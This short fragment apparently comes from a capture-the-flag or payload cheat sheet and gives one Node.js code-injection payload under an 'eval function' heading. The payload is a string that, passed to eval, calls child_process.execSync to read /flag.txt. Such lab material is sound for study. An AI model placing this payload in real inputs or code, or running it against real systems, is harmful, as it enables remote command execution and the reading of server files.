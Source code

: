 ### JAVASCRIPT `eval function`

```bash
"require('child_process').execSync('cat /flag.txt').toString();"
```
